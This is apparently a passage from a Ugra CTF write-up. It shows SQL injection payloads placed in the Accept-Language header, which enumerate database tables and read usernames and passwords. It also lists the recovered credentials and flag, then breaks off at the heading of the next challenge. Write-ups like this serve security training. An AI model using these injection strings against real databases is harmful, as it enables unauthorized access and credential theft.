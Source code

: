 `Accept-Language: asd' UNION SELECT 'a',table_name AS table_name_1 from information_schema.tables where table_catalog = 'MyPastaDB' and table_schema = 'public' limit 1 offset 1  --`

- Username

`Accept-Language: asd' UNION SELECT 'a',"Username" from "Users" --`

- Password

`Accept-Language: asd' UNION SELECT 'a',"Username" from "Password" --`

So the creds is  pastalover:ZThmZWU3ZTctOTk5OS00NTRlLTk3NWQt

### Flag

`ugra_localization_with_no_sanitazation_05c1962871f0`

# PPC

## Easy

### Description

![Untitled](Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%2010.png)
